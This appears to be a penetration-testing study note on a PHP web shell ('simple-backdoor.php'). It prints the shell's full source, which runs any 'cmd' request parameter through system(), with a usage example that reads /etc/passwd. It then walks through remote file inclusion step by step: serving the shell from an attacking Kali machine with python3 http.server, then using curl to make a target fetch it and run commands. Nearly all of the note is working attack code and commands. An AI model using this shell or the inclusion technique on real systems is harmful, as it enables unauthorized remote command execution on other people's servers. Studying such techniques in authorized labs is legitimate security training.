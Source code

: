 # Overview

## Location
'/usr/share/webshells/php/simple-backdoor.php'
## Code Review
~~~ php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

~~~
### Application
This web-shell uses the 'cmd' parameter and executes them via the system function.  These functions are executed against the file-system on the host (target) machine.
In order for this exploit to work, we need to make the remote file accessible by the target system.  We can use the 'Python3 http.server' module to start a web-server on our Kali machine and serve the file we want to include remotely on the target system.  The http.server module sets the web root to the current directory of our terminal.
~~~ bash
# start a Python3 http.server on the host (Kali) machine
python3 -m http.server 80

# result below from running the Python3 http server
serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)...

~~~
After the web server is running with 'usr/share/webshells/php' as its current working directory, we have completed all necessary steps on our attacking machine.  
Next we use 'curl' to include the hosted file via HTTP and specify 'ls' as our command.
~~~ bash
# using curl to instruct the target machine to download the web-shell from the python3 http.server

curl "http://192.168.0.1/subdirectory/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

# first url is the target machine
# second url is the kali machine
# simple-backdoor.php is the web-shell php script
# cmd=ls is the command that the web-shell will run
# the result will be the 'ls' of the target (192.168.0.1/subdirectory) machine
~~~

## Tags
#webshell
#php
#simplebackdoor 
#remotefileinclusion
#webapplications